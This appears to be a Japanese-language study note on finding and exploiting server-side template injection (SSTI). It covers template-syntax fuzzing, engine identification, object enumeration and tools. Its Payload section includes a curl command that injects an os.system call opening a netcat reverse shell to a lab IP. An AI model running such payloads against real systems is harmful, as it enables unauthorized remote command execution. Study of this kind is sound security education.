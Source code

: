 ## ## SSTIの理解
 - SSTIは、SSTIを見つけようとしないと見過ごされやすい脆弱性である。
- 発火は、XSSと同じ文字連結によって引きおこる。

---
## ## SSTIの見つけ方
### ### Step1 : Detect(検出)
 - 特殊文字の列挙(テンプレートファジング)をするのが一般的。
```sh
${
{
<%
[%
'
"
}
}}
%\
```
->注意:SSTIは2つの異なるコンテキストで発生し、どれぞれ独自の検出方法が必要である。

- SSTIの有無の判断基準
	- **プレーンテキストのコンテキストの場合**
		- XSSと同じ方法で見つけることが出来るが、この場合`{{7*7}}`などの演算を入力することにより、戻り値が49となればSSTIがあるという理解でいいだろう。
			※数字演算の場合、使用するテンプレートエンジンによって正しい書式が異なるので注意が必要。
	- **コードコンテキスト**
		- **Step1:XSSサイトでないことの確認が必要**
			```Example
			URL: http://site.com/?greeting=data.username<tag>
			目的: 直接的なXSS脆弱性がないことを確認
			期待結果: <tag>がエスケープされるか、エラーになる
			```
		- **Step2:テンプレート構文からの脱出。**
			```Example
			URL: http://site.com/?greeting=data.username}}<tag>
			目的: テンプレート式から抜け出してHTMLを挿入
			期待結果: もしSSTIがあれば「Hello Carlos<tag>」と表示される
			```

### ### Step2 :  Identify(特定)
SSTIの可能性を検出したら、次はtemplateエンジンを特定すること。
テンプレートエンジンの特定は以下の図のようなペイロードを送ればわかる。
![[Pasted image 20250612224600.png]]
※注意:同じテンプレート言語で成功レスポンスを返す場合があることに注意が必要。
1つのテンプレートで決めつけず複数のペイロードを使用する方がいい。

### ### Step3 :Exploit(悪用)
SSTIはRCEができる可能性はあるが、必ずしもうまくいくとは限らない。ただRCEができないからと言って他のエクスプロイトの可能性がないわけではない。トラバーサルや他の深刻度の高い脆弱性が使用されることがある。
- **step1:ドキュメントを読む**
	- まずテンプレートエンジンの特定が出来たら、そのドキュメントを読んで理解を深めることから始める。
		- その際に意識することは基本的なテンプレート構文を学ぶこと。
	- セキュリティの影響の箇所を読む。ドキュメントにはセキュリティセクションみたいな箇所が存在する。通常はテンプレートで避けるべき危険な関数に関することだったりが記載されている。
	- オンラインでテンプレートエンジンの脆弱性がないかを探す。
- **Step2:探索**
	- ターゲットのサイトを巡回して、アクセスできるすべてのオブジェクトを見つける。
		- また、`self`、`environment`オブジェクトが公開されているケースが多い。
			- ↑このオブジェクトは、使用できる関数やメソッド、また、使用されている変数や属性を確認することが出来るオブジェクト。
	- 開発者独自で作ったオブジェクト
		- 意識することとして、エンジンによって提供されるオブジェクトと開発者が作ったサイト固有のカスタムオブジェクトの両方が含まれている点に注意が必要。
			- これらの非標準オブジェクトには、機密情報や悪用可能なメソッドが含まれる可能性が高いため特に注意が必要。
- **Step3:カスタム攻撃を作成する**
	- ここは後ほど記載する。
--- 
![[Pasted image 20250524180648.png]]
- 上記のような{}が出力されているときは、SSTIを疑ってよい


## ## Payload
```
curl -i http://192.168.237.117:50000/verify -X POST --data 'code=5*5'
curl -i http://192.168.243.117:50000/verify -X POST --data 'code=os.system("nc 192.168.45.154 18000 -e /bin/bash")'
```
※参考サイト
[https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys);

---
## ## Enumeration
### ### wordbruteforce
```sh
ffuf 
```


## ## Tools
- [SSTImap](http://github.com/vladko312/SSTImap)